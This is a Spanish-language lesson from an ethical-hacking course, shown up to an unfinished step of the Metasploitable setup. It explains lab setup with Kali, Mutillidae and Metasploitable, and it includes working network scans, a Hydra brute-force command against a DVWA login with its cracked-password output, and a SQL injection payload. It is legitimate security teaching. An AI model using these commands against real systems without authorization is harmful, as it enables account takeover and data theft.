

| **Inicio**         | **atrás 12**                                | **Siguiente 14**                                    |
| ------------------ | ------------------------------------------- | --------------------------------------------------- |
| [🏠](../README.md) | [⏪](./7_12_Fundamentos_de_Criptografia.md) | [⏩](./7_14_Inteligencia_para_la_Ciberseguridad.md) |

---

## **Índice**

| Temario                                                                                                                                                                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [859. Conceptos básicos sobre hacking ético](#859-conceptos-básicos-sobre-hacking-ético)                                                                                                         |
| [860. Vulnerabilidades](#860-vulnerabilidades)                                                                                                                                                   |
| [861. Amenazas y ataques comunes](#861-amenazas-y-ataques-comunes)                                                                                                                               |
| [862. Instalación del entorno de pruebas Kali Linux](#862-instalación-del-entorno-de-pruebas-kali-linux)                                                                                         |
| [863. Instalación del entorno de pruebas Mutillidae](#863-instalación-del-entorno-de-pruebas-mutillidae)                                                                                         |
| [864. Instalación del entorno de pruebas Metaesplotaible](#864-instalación-del-entorno-de-pruebas-metaesplotaible)                                                                               |
| [865. Práctica: Cross-Site-Scripting, command injection y directorio transversal](#865-práctica-cross-site-scripting-command-injection-y-directorio-transversal)                                 |
| [866. Fases del hacking](#866-fases-del-hacking)                                                                                                                                                 |
| [867. Tipos de hacking](#867-tipos-de-hacking)                                                                                                                                                   |
| [868. Práctica: Obteniendo información de fuentes abiertas con OSINT Framework y Google hacking](#868-práctica-obteniendo-información-de-fuentes-abiertas-con-osint-framework-y-google-hacking)  |
| [869. Práctica: Analizar un sitio web con Nikto y Spiderfoot](#869-práctica-analizar-un-sitio-web-con-nikto-y-spiderfoot)                                                                        |
| [870. ¿Es necesario un hacking ético? Hacking ético como profesión](#870-es-necesario-un-hacking-ético-hacking-ético-como-profesión)                                                             |
| [871. Conceptos. ¿qué es y qué no es pentesting?](#871-conceptos-qué-es-y-qué-no-es-pentesting)                                                                                                  |
| [872. Tipos de pentesting. Fase Pre-ataque](#872-tipos-de-pentesting-fase-pre-ataque)                                                                                                            |
| [873. Práctica: Buscando secretos en repositorios GIT](#873-práctica-buscando-secretos-en-repositorios-git)                                                                                      |
| [874. Introducción al escaneo de redes](#874-introducción-al-escaneo-de-redes)                                                                                                                   |
| [875. Práctica: Escaneo de redes con Nmap](#875-práctica-escaneo-de-redes-con-nmap)                                                                                                              |
| [876. Fase de Ataque. Testing de aplicaciones web con Burp suite](#876-fase-de-ataque-testing-de-aplicaciones-web-con-burp-suite)                                                                |
| [877. Práctica: Explotando vulnerabilidades en metasploitable](#877-práctica-explotando-vulnerabilidades-en-metasploitable)                                                                      |
| [878. Fase Post-ataque. Metodologías](#878-fase-post-ataque-metodologías)                                                                                                                        |
| [879. Gestión de riesgos y modelado de amenazas](#879-gestión-de-riesgos-y-modelado-de-amenazas)                                                                                                 |
| [880. PCI DSS. HIPAA. DMCA.ISO/IEC 27001](#880-pci-dss-hipaa-dmcaisoiec-27001)                                                                                                                   |
| [881. Contratos, Reglas de compromisos, Cláusula de no competencia y Acuerdo de confidencialidad](#881-contratos-reglas-de-compromisos-cláusula-de-no-competencia-y-acuerdo-de-confidencialidad) |
| [882. Convenio de Budapest. ¿Cómo vamos en América latina? Salvaguarda de evidencias digitales](#882-convenio-de-budapest-cómo-vamos-en-américa-latina-salvaguarda-de-evidencias-digitales)      |
| [883. Malware y Análisis estático de malware](#883-malware-y-análisis-estático-de-malware)                                                                                                       |
| [884. Malware y Análisis dinámico de malware](#884-malware-y-análisis-dinámico-de-malware)                                                                                                       |
| [885. Sniffing y Cómo realizar un ataque Man in the middle automatico](#885-sniffing-y-cómo-realizar-un-ataque-man-in-the-middle-automatico)                                                     |
| [886. Sniffing y Cómo realizar un ataque Man in the middle manual](#886-sniffing-y-cómo-realizar-un-ataque-man-in-the-middle-manual)                                                             |
| [887. Denegación de servicio. Ataque DOS con LOIC y HOIC](#887-denegación-de-servicio-ataque-dos-con-loic-y-hoic)                                                                                |
| [888. Ingeniería social](#888-ingeniería-social)                                                                                                                                                 |
| [889. Políticas de seguridad. Seguridad física y Controles de acceso](#889-políticas-de-seguridad-seguridad-física-y-controles-de-acceso)                                                        |
| [890. Práctica: Bypass autenticación QR (Reto 6 SANS Holiday hack)](#890-práctica-bypass-autenticación-qr-reto-6-sans-holiday-hack)                                                              |
| [891. Copias de seguridad. Defensa en lo profundo](#891-copias-de-seguridad-defensa-en-lo-profundo)                                                                                              |
| [892. Práctica: instalación del IDS snort](#892-práctica-instalación-del-ids-snort)                                                                                                              |

# **Hacking Ético**

## **859. Conceptos básicos sobre hacking ético**

### 🧠 ¿Qué es el Hacking Ético?

El **hacking ético** es el uso legal y autorizado de técnicas de hacking para encontrar y corregir vulnerabilidades en sistemas informáticos, redes, aplicaciones o servidores.

Es decir, un **hacker ético** piensa como un hacker malicioso, pero trabaja con **permiso**, con el objetivo de **proteger** en lugar de atacar.

---

### ✅ Objetivos del Hacking Ético

- Proteger redes y sistemas.
- Descubrir fallos de seguridad antes que los atacantes.
- Reforzar la ciberseguridad de empresas y personas.
- Cumplir normativas de seguridad como ISO 27001, NIST, etc.

---

### 👨‍💻 Tipos de Hackers

| Tipo de Hacker                 | Descripción                                                                 |
| ------------------------------ | --------------------------------------------------------------------------- |
| 🧢 White Hat (Sombrero Blanco) | Hacker ético. Usa sus conocimientos para proteger.                          |
| 🧢 Black Hat (Sombrero Negro)  | Hacker malicioso. Ataca sin permiso.                                        |
| 🧢 Grey Hat (Sombrero Gris)    | Está en el medio. Puede hackear sin permiso, pero no con malas intenciones. |

---

### 🧰 Herramientas comunes del hacking ético

| Herramienta    | Función                                                                       |
| -------------- | ----------------------------------------------------------------------------- |
| **Kali Linux** | Sistema operativo con herramientas preinstaladas para pruebas de penetración. |
| **Nmap**       | Escaneo de redes y puertos.                                                   |
| **Metasploit** | Exploits y payloads para pruebas de vulnerabilidad.                           |
| **Wireshark**  | Analiza paquetes de red.                                                      |
| **Burp Suite** | Testeo de seguridad en aplicaciones web.                                      |

---

### 🖥️ ¿Cómo instalar un entorno para practicar hacking ético?

#### Opción 1: Usar una máquina virtual con Kali Linux

1. **Instalar VirtualBox o VMware**:

   - Descárgalo de: [https://www.virtualbox.org](https://www.virtualbox.org)

2. **Descargar la imagen de Kali Linux**:

   - Desde: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

3. **Importar la máquina virtual**:

   - Abre VirtualBox > Importa el archivo `.ova` que descargaste.

4. **Inicia Kali Linux**.

---

#### Opción 2: Usar Kali Linux desde USB

1. Descarga **Rufus**: [https://rufus.ie](https://rufus.ie)
2. Inserta tu USB.
3. Usa Rufus para "quemar" la imagen `.iso` de Kali.
4. Reinicia tu PC y arranca desde el USB.

> 🔒 **Recomendado**: Usa Kali Linux en una **máquina virtual** para no dañar tu sistema principal.

---

### 🧪 Ejemplo completo de hacking ético básico

#### 🎯 Objetivo: Escanear una red local y encontrar qué dispositivos están conectados.

---

#### Paso 1: Abrir Kali Linux

- Abre tu Kali Linux (ya sea en máquina virtual o USB).

---

#### Paso 2: Descubrir tu IP y red local

```bash
ip a
```

Busca algo como:

```
inet 192.168.1.100/24
```

Tu red es `192.168.1.0/24`.

---

#### Paso 3: Escanear todos los dispositivos conectados a tu red

```bash
nmap -sn 192.168.1.0/24
```

Esto escanea los hosts activos. Resultado típico:

```
Nmap scan report for 192.168.1.1 (Router)
Nmap scan report for 192.168.1.105 (Laptop)
Nmap scan report for 192.168.1.107 (Smartphone)
```

---

#### Paso 4: Escanear puertos de un dispositivo específico

```bash
nmap -sV 192.168.1.105
```

Resultado:

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6
80/tcp   open  http       Apache httpd 2.4.29
```

Ya sabes qué servicios corren en esa máquina.

---

#### Paso 5 (opcional): Usar Nikto para escanear vulnerabilidades en el servidor web

```bash
nikto -h http://192.168.1.105
```

---

### 🧠 Conclusiones del ejemplo

- Usaste **Nmap** para descubrir la red y los puertos abiertos.
- Usaste **Nikto** para buscar vulnerabilidades básicas.
- Todo fue hecho de forma **ética** y en una red que tú controlas.

---

### ⚠️ Importante sobre la ética

Nunca hagas pruebas de hacking en redes o sistemas ajenos sin permiso. Solo practica en:

- Tu propia red.
- Laboratorios virtuales (como TryHackMe, Hack The Box).
- Ambientes controlados.

---

### 📚 Recomendaciones para seguir aprendiendo

- Cursos gratuitos: [TryHackMe](https://tryhackme.com), [Hack The Box](https://hackthebox.com)
- Libros:

  - “Hacking Ético 101”
  - “The Web Application Hacker’s Handbook”

- Certificaciones:

  - CEH (Certified Ethical Hacker)
  - OSCP (Offensive Security Certified Professional)

---

[🔼](#índice)

---

## **860. Vulnerabilidades**

### 🧠 ¿Qué es una Vulnerabilidad?

Una **vulnerabilidad** es una **debilidad o fallo** en un sistema, software, aplicación o red que puede ser aprovechado por un atacante para realizar una acción maliciosa, como robar datos, obtener acceso no autorizado, interrumpir el servicio, etc.

---

### 🎯 Tipos comunes de vulnerabilidades

| Tipo                           | Explicación simple                        | Ejemplo                                                 |
| ------------------------------ | ----------------------------------------- | ------------------------------------------------------- |
| **Vulnerabilidad de software** | Fallo en un programa o sistema operativo. | Windows sin parches de seguridad.                       |
| **Vulnerabilidad web**         | Fallo en sitios web o apps web.           | Inyección SQL, XSS, etc.                                |
| **Vulnerabilidad de red**      | Mala configuración o puertos abiertos.    | Router sin contraseña o con Telnet activado.            |
| **Errores humanos**            | Errores de configuración o descuido.      | Contraseña "123456" o administrador sin cambiar claves. |

---

### 🧰 Herramientas para encontrar vulnerabilidades

| Herramienta                 | ¿Para qué sirve?                               |
| --------------------------- | ---------------------------------------------- |
| **Nmap**                    | Escanear redes y servicios abiertos.           |
| **Nikto**                   | Buscar vulnerabilidades en servidores web.     |
| **OWASP ZAP**               | Analizar seguridad en aplicaciones web.        |
| **Burp Suite**              | Interceptar tráfico web para encontrar fallos. |
| **OpenVAS** o **Greenbone** | Escaneo de vulnerabilidades general.           |
| **Metasploit**              | Explotar vulnerabilidades conocidas.           |

---

### 🧱 ¿Cómo instalar un entorno para probar vulnerabilidades?

#### ✅ Lo que necesitas:

1. **Kali Linux** como atacante.
2. **Máquina vulnerable**, por ejemplo:

   - [DVWA (Damn Vulnerable Web Application)](http://www.dvwa.co.uk/)
   - [Metasploitable2](https://sourceforge.net/projects/metasploitable/)

---

#### 🖥️ Instalación en Máquina Virtual

##### Paso 1: Instala VirtualBox o VMware

- [https://www.virtualbox.org/](https://www.virtualbox.org)

##### Paso 2: Descarga Kali Linux (atacante)

- [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

##### Paso 3: Descarga Metasploitable2 (víctima)

- [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

##### Paso 4: Ejecuta ambas máquinas virtuales

Asegúrate de que **ambas están en la misma red interna o adaptador puente**.

---

### 🔍 Ejemplo completo: Encontrar vulnerabilidades en una web con Nikto

#### 🎯 Objetivo: Escanear una aplicación web vulnerable con Nikto

---

##### Paso 1: Enciende Metasploitable2

Anota la IP con:

```bash
ifconfig
```

Resultado (por ejemplo):

```
inet addr:192.168.1.105
```

---

#### Paso 2: Enciende Kali Linux y abre terminal

Ejecuta:

```bash
nikto -h http://192.168.1.105
```

---

#### Resultado típico:

```
+ Server: Apache/2.2.8 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ OSVDB-3092: /phpinfo.php: PHP info file found. This file may expose sensitive information.
+ OSVDB-3268: /icons/: Directory indexing is enabled.
```

---

#### ¿Qué significa esto?

- `phpinfo.php`: expone información del servidor.
- `TRACE`: método inseguro activo.
- `Directory indexing`: usuarios pueden ver archivos internos.

---

#### Paso 3 (opcional): Explotar una vulnerabilidad

Por ejemplo, puedes acceder a:

```bash
http://192.168.1.105/phpinfo.php
```

Y ver toda la configuración del servidor (peligroso si es público).

---

### 🧠 Conclusiones

- Las **vulnerabilidades** son errores que se pueden **detectar y corregir**.
- Puedes encontrarlas con herramientas como **Nikto**, **Nmap**, **Burp Suite**.
- Usar un **laboratorio virtual** como Metasploitable2 + Kali te permite **practicar sin dañar sistemas reales**.

---

### 📚 Recomendaciones para seguir aprendiendo

- 🔗 [https://owasp.org](https://owasp.org): guía oficial sobre vulnerabilidades web.
- 📘 Curso gratuito en [TryHackMe](https://tryhackme.com)
- 💡 Aprender sobre CVE (Common Vulnerabilities and Exposures): [https://cve.mitre.org/](https://cve.mitre.org/)

---

[🔼](#índice)

---

## **861. Amenazas y ataques comunes**

### 🔐 ¿Qué es una amenaza en ciberseguridad?

Una **amenaza** es **todo aquello que puede poner en riesgo la seguridad de un sistema**, red, aplicación o usuario.

> ⚠️ **No es lo mismo que un ataque**:
>
> - **Amenaza** = posibilidad de daño.
> - **Ataque** = acción concreta que aprovecha una vulnerabilidad.

---

### 🧠 Tipos de amenazas

| Tipo           | Explicación sencilla                    | Ejemplo                             |
| -------------- | --------------------------------------- | ----------------------------------- |
| **Humanas**    | Errores o malas prácticas de usuarios.  | Compartir contraseñas por WhatsApp. |
| **Maliciosas** | Intenciones maliciosas de atacantes.    | Hacker intenta robar contraseñas.   |
| **Naturales**  | Sucesos naturales que afectan sistemas. | Terremoto que daña un servidor.     |

---

### 🛠️ Tipos de ataques comunes

| Ataque                         | Qué hace                                  | Ejemplo sencillo                                               |
| ------------------------------ | ----------------------------------------- | -------------------------------------------------------------- |
| **Phishing**                   | Engaña al usuario para robar información. | Te llega un correo falso del banco.                            |
| **Malware**                    | Código malicioso que infecta el sistema.  | Abres un archivo adjunto infectado.                            |
| **Ransomware**                 | Secuestra archivos y pide rescate.        | Bloquea tus fotos y te pide dinero.                            |
| **DDoS**                       | Satura un servidor con muchas peticiones. | Un sitio se cae porque lo atacan con miles de accesos.         |
| **SQL Injection**              | Inserta código malicioso en formularios.  | El atacante roba datos desde un campo de login.                |
| **XSS (Cross-site Scripting)** | Inserta scripts en páginas web.           | Alguien escribe un `<script>` en un formulario y roba cookies. |
| **Brute Force**                | Prueba miles de combinaciones de claves.  | El atacante intenta acceder a una cuenta probando contraseñas. |
| **Man-in-the-Middle (MITM)**   | Intercepta comunicación entre dos partes. | Te conectas a un Wi-Fi público y te roban la contraseña.       |

---

### 🧰 ¿Cómo instalar un entorno para aprender sobre ataques?

La mejor forma es con **laboratorios virtuales controlados**.

#### ✅ Opción segura: Usar máquinas virtuales en tu PC

#### Necesitas:

1. **VirtualBox o VMware** (para correr máquinas virtuales)

   - [https://www.virtualbox.org/](https://www.virtualbox.org/)

2. **Kali Linux** (para simular al atacante)

   - [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)

3. **DVWA (Damn Vulnerable Web Application)** o **Metasploitable2** (para simular la víctima)

   - [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
   - [https://sourceforge.net/projects/metasploitable/](https://sourceforge.net/projects/metasploitable/)

4. Colocar ambas máquinas virtuales en la **misma red interna**.

---

### 💻 Ejemplo completo y práctico: Simulación de un ataque de fuerza bruta

#### 🎯 Objetivo: Usar **Hydra** (en Kali) para probar acceso con múltiples contraseñas a una web vulnerable (**DVWA**).

---

#### Paso 1: Iniciar Kali Linux (atacante) y DVWA (víctima)

DVWA debe estar accesible desde Kali, por ejemplo en:

```
http://192.168.1.105/dvwa/login.php
```

---

#### Paso 2: Asegúrate de que DVWA esté en modo "LOW" de seguridad

Ve a la página DVWA ➜ "DVWA Security" ➜ selecciona `Low`.

---

#### Paso 3: Crear un archivo con contraseñas comunes

```bash
echo -e "admin\n123456\npassword\ntest\nadmin123" > passwords.txt
```

---

#### Paso 4: Usar Hydra para hacer el ataque de fuerza bruta

```bash
hydra -l admin -P passwords.txt 192.168.1.105 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"
```

---

#### Resultado esperado:

```
[80][http-post-form] host: 192.168.1.105   login: admin   password: password
```

> Esto significa que encontró una contraseña válida (`password`) para el usuario `admin`.

---

### 🧠 ¿Qué aprendiste con este ejemplo?

- Simulaste un ataque real de fuerza bruta **sin dañar a nadie**.
- Usaste herramientas reales como **Hydra** y **DVWA**.
- Entendiste cómo un atacante puede probar miles de contraseñas.

---

### 🛡️ ¿Cómo protegerte de estos ataques?

| Ataque        | Defensa recomendada                               |
| ------------- | ------------------------------------------------- |
| Phishing      | No hacer clic en correos sospechosos.             |
| Malware       | Usar antivirus y no abrir adjuntos desconocidos.  |
| Brute Force   | Usar contraseñas fuertes y límites de intentos.   |
| SQL Injection | Validar entradas y usar consultas preparadas.     |
| DDoS          | Usar firewalls, balanceadores y mitigadores.      |
| XSS           | Escapar y sanitizar entradas en formularios.      |
| MITM          | Usar HTTPS y evitar redes Wi-Fi públicas sin VPN. |

---

### 📚 Recursos gratuitos para practicar ataques y defensas

- 🔗 [https://tryhackme.com](https://tryhackme.com) (guía paso a paso para principiantes)
- 🔗 [https://owasp.org](https://owasp.org) (proyectos de seguridad web)
- 🔗 [https://hackthebox.com](https://hackthebox.com) (retos técnicos con máquinas reales)

---

[🔼](#índice)

---

## **862. Instalación del entorno de pruebas Kali Linux**

### 🧠 **¿Qué es Kali Linux?**

**Kali Linux** es un sistema operativo basado en Linux, especialmente diseñado para **hacking ético, pruebas de penetración y análisis forense**. Viene con **más de 600 herramientas de ciberseguridad** preinstaladas como Nmap, Metasploit, Burp Suite, Wireshark, John the Ripper, entre otras.

> 🔐 Es una de las distribuciones más usadas por **hackers éticos, pentesters y expertos en ciberseguridad.**

---

### ✅ ¿Por qué usar Kali Linux para pruebas?

- Tiene herramientas profesionales listas para usar.
- Es gratuito y de código abierto.
- Lo puedes instalar en una máquina virtual, USB o como sistema principal.
- Ideal para **laboratorios de práctica sin afectar tu sistema principal.**

---

### 🛠️ ¿Cómo instalar Kali Linux en tu PC paso a paso?

Te mostraré la forma **más segura y recomendada**: **instalación en máquina virtual** usando **VirtualBox**.

---

### 🧰 Requisitos previos

| Requisito        | Detalles                                       |
| ---------------- | ---------------------------------------------- |
| Sistema          | Windows, macOS o Linux                         |
| RAM              | Mínimo 4 GB (recomendado: 8 GB)                |
| Espacio en disco | Mínimo 20 GB libres                            |
| VirtualBox       | Para ejecutar Kali sin instalarlo directamente |

---

### 🧱 PASO 1: Instalar VirtualBox

1. Ve a: [https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)
2. Descarga la versión para tu sistema operativo.
3. Instala como cualquier otro programa (siguiente ➜ siguiente ➜ instalar).

---

### 🧱 PASO 2: Descargar Kali Linux

1. Ve a: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
2. Haz scroll hasta **“Virtual Machines”**.
3. Elige el archivo **OVA (formato listo para VirtualBox)**.
4. Descárgalo (pesa alrededor de 3 GB).

> Ejemplo: `kali-linux-2025.1-virtualbox-amd64.ova`

---

### 🧱 PASO 3: Importar Kali Linux a VirtualBox

1. Abre **VirtualBox**.
2. Ve a **Archivo ➜ Importar servicio virtualizado**.
3. Selecciona el archivo `.ova` que descargaste.
4. Dale a “Siguiente” y luego “Importar”.
5. Espera unos minutos mientras se configura.

---

### 🧱 PASO 4: Iniciar Kali Linux

1. Haz clic en la máquina virtual importada.
2. Presiona **Iniciar**.
3. Aparecerá Kali Linux ya instalado y funcionando.

> 🧑‍💻 Usuario y contraseña por defecto:
>
> - Usuario: `kali`
> - Contraseña: `kali`

---

### ✅ Kali Linux ya está listo

Ahora puedes comenzar a usar herramientas como:

- **Nmap**: escaneo de red.
- **Burp Suite**: pruebas web.
- **Metasploit**: explotación de vulnerabilidades.
- **Wireshark**: análisis de tráfico de red.

---

### 📦 EJEMPLO COMPLETO DE USO: Escanear dispositivos en tu red con Nmap

🎯 Objetivo: Detectar qué dispositivos están conectados a tu red y qué puertos tienen abiertos.

---

#### Paso 1: Abrir una terminal en Kali

Presiona `Ctrl + Alt + T` o haz clic en el icono de la terminal.

---

#### Paso 2: Ver tu dirección IP y rango de red

Escribe:

```bash
ip a
```

Ejemplo de salida:

```
inet 192.168.1.100/24
```

Tu red es `192.168.1.0/24`.

---

#### Paso 3: Escanear todos los dispositivos conectados

```bash
nmap -sn 192.168.1.0/24
```

Este comando detecta todos los dispositivos activos en tu red.

---

#### Resultado esperado:

```
Nmap scan report for 192.168.1.1 (Router)
Nmap scan report for 192.168.1.101 (Laptop)
Nmap scan report for 192.168.1.105 (Smartphone)
```

---

#### Paso 4: Escanear los puertos abiertos de un dispositivo

```bash
nmap -sV 192.168.1.101
```

Ejemplo de salida:

```
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.2
80/tcp   open  http       Apache 2.4.46
```

> 🔍 Significa que ese dispositivo tiene un servidor web (puerto 80) y SSH (puerto 22) funcionando.

---

### ✅ Conclusiones

- Instalaste Kali Linux en VirtualBox de forma **segura y aislada**.
- Usaste Nmap para hacer tu **primer análisis de red real**.
- Estás listo para empezar a probar otras herramientas como **Burp Suite**, **Metasploit**, **Hydra**, etc.

---

### 📚 Recursos adicionales para aprender con Kali

- 🌐 [https://tryhackme.com](https://tryhackme.com)
- 📘 Curso gratuito: "Kali Linux for Beginners" (YouTube y Udemy)
- 🔗 [https://www.kali.org/docs/](https://www.kali.org/docs/): documentación oficial

---

[🔼](#índice)

---

## **863. Instalación del entorno de pruebas Mutillidae**

### 🧠 ¿Qué es Mutillidae?

**Mutillidae** (o _OWASP Mutillidae II_) es una **aplicación web vulnerable intencionalmente**, creada para que los estudiantes, testers y profesionales de ciberseguridad puedan practicar ataques reales en un entorno seguro.

Fue desarrollada por OWASP y contiene decenas de vulnerabilidades web como:

- Inyección SQL (SQLi)
- Cross-site scripting (XSS)
- CSRF
- Subida insegura de archivos
- Inyecciones de comandos
- y muchas más...

> ✅ Ideal para practicar con herramientas como **Burp Suite**, **OWASP ZAP**, **SQLmap**, **Hydra**, etc.

---

### 🧰 ¿Qué necesito para instalar Mutillidae?

Tienes 3 formas de usar Mutillidae:

1. 🐧 En **Kali Linux o cualquier Linux con Apache + PHP + MySQL**
2. 🪟 En Windows usando **XAMPP** (servidor web local)
3. ⚙️ Como **máquina virtual preconfigurada (OWASP BWA)**

Vamos a usar la más flexible y educativa: **Instalarlo manualmente en Kali Linux**, que ya conoces y usas.

---

### ✅ Instalación de Mutillidae en Kali Linux

#### 🔹 PASO 1: Instala Apache, PHP y MariaDB (MySQL)

Abre terminal y ejecuta:

```bash
sudo apt update
sudo apt install apache2 php php-mysqli mariadb-server git -y
```

---

#### 🔹 PASO 2: Clona el repositorio oficial de Mutillidae

```bash
cd /var/www/html
sudo git clone https://github.com/webpwnized/mutillidae.git
```

Renombra la carpeta (opcional):

```bash
sudo mv mutillidae mutillidae
```

---

#### 🔹 PASO 3: Configura permisos de archivos

```bash
sudo chown -R www-data:www-data /var/www/html/mutillidae
```

---

#### 🔹 PASO 4: Inicia los servicios necesarios

```bash
sudo systemctl start apache2
sudo systemctl start mariadb
```

---

#### 🔹 PASO 5: Configura la base de datos de Mutillidae

1. Ingresa a MySQL:

```bash
sudo mysql -u root
```

2. Ejecuta lo siguiente (para crear la base de datos):

```sql
CREATE DATABASE mutillidae;
exit;
```

3. Ahora ve a tu navegador en Kali y abre:

```
http://localhost/mutillidae
```

4. Verás la interfaz de Mutillidae. Haz clic en **"Setup/reset the DB"** para crear las tablas.

---

🎉 ¡Listo! Ya tienes **Mutillidae instalado y funcionando**.

---

#### 🚨 Usuario y contraseña

Mutillidae no tiene login por defecto, pero **las credenciales se simulan dentro del laboratorio** (puedes ver usuarios en las tablas como `accounts`).

---

### 🧪 EJEMPLO COMPLETO: Ataque de Inyección SQL (SQLi)

🎯 Objetivo: Usar **una vulnerabilidad SQL** para obtener los nombres de usuarios.

---

#### Paso 1: Accede a Mutillidae

Navega a:

```
http://localhost/mutillidae
```

En el menú izquierdo, busca:

```
OWASP Top 10 ➜ A1 - Injection ➜ SQL Injection ➜ User Info
```

---

#### Paso 2: Ejecuta un ataque SQLi básico

En el campo "User ID", escribe:

```
1' OR '1'='1
```

Haz clic en "Submit".

---

#### Resultado esperado:

El sistema te devolverá **todos los usuarios** en lugar de solo uno. Esto se debe a que el sistema **no valida correctamente el input** y el código SQL queda así:

```sql
SELECT * FROM users WHERE id='1' OR '1'='1';
```

Esto siempre es verdadero (`'1'='1'`), por lo tanto te muestra todos los registros.

---

### 🧠 ¿Qué aprendiste?

- Cómo instalar **Mutillidae** desde cero.
- Qué es una **inyección SQL**.
- Cómo una simple entrada puede vulnerar toda la base de datos si no se valida correctamente.

---

### 🛡️ ¿Cómo se defiende?

- Usando **consultas preparadas (prepared statements)**.
- Validando correctamente todos los datos que ingresan los usuarios.
- Aplicando **principios OWASP**.

---

### 📚 Recursos recomendados

| Recurso           | Enlace                                                                               |
| ----------------- | ------------------------------------------------------------------------------------ |
| Mutillidae GitHub | [https://github.com/webpwnized/mutillidae](https://github.com/webpwnized/mutillidae) |
| OWASP Top 10      | [https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/)     |
| Práctica guiada   | [https://tryhackme.com](https://tryhackme.com)                                       |

---

[🔼](#índice)

---

## **864. Instalación del entorno de pruebas Metaesplotaible**

### 🧠 ¿Qué es Metasploitable?

**Metasploitable** es una máquina virtual vulnerable creada intencionalmente para que puedas practicar ataques con herramientas como **Metasploit**, **Nmap**, **Nikto**, **Hydra**, etc., de forma **legal y segura**.

> ⚠️ **No es una herramienta para ataques reales**, sino un entorno controlado para que aprendas hacking ético.

La versión más usada es **Metasploitable2**, desarrollada por Rapid7 (creadores de Metasploit).

---

### ✅ ¿Por qué usar Metasploitable?

- Viene con múltiples servicios y vulnerabilidades abiertas.
- Perfecto para aprender inyecciones SQL, RCE (ejecución remota de comandos), contraseñas débiles, etc.
- Fácil de integrar con Kali Linux.

---

### 🧰 Requisitos

| Requisito       | Detalles                                           |
| --------------- | -------------------------------------------------- |
| PC con al menos | 4 GB de RAM (recomendado 8 GB)                     |
| Espacio libre   | \~20 GB                                            |
| Programas       | VirtualBox (o VMware), Kali Linux, Metasploitable2 |

---

### ✅ Instalación paso a paso

#### 🔹 Paso 1: Descargar VirtualBox

1. Ve a: [https://www.virtualbox.org/wiki/Downloads](https://www.virtualbox.org/wiki/Downloads)
2. Descarga e instala VirtualBox según tu sistema (Windows/macOS/Linux).

---

#### 🔹 Paso 2: Descargar Kali Linux (opcional si ya lo tienes)

- Página oficial: [https://www.kali.org/get-kali/](https://www.kali.org/get-kali/)
- Puedes usar la versión en formato `.ova` (fácil de importar).

---

#### 🔹 Paso 3: Descargar Metasploitable2

1. Ve a:
   [https://sourceforge.net/projects/metasploitable/files/Metasploitable2/](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/)
2. Descarga el archivo ZIP y descomprímelo. Deberías obtener archivos como:

   - `Metasploitable.vmdk`
   - `Metasploitable.vmx`

---

#### 🔹 Paso 4: Crear una máquina virtual para Metasploitable

En VirtualBox:

1. Clic en **"Nueva"**.
2. Nombre: `Metasploitable2`
3. Tipo: **Linux**
4. Versión: **Ubuntu (32-bit)**
5. RAM: al menos 512 MB
6. Disco duro: elige “usar un disco existente” y selecciona `Metasploitable.vmdk`.

---

#### 🔹 Paso 5: Configura red en ambas máquinas (Kali y Metasploitable)

Para que Kali pueda atacar a Metasploitable, deben estar en la **misma red**:

1. Ve a **Configuración ➜ Red**
2. Elige **Adaptador puente** o **Red interna** en ambas máquinas.

   - Adaptador puente: ambas usan la red real de tu casa.
   - Red interna: red cerrada entre ambas máquinas.

---

#### 🔹 Paso 6: Inicia Kali y Metasploitable

- Kali: usuario/contraseña suele ser `kali/kali`.
- Metasploitable: usuario `msfadmin`, contraseña `msfadmin`.

---

#### 🔹 Paso 7: Verifica que ambas máquinas se ven

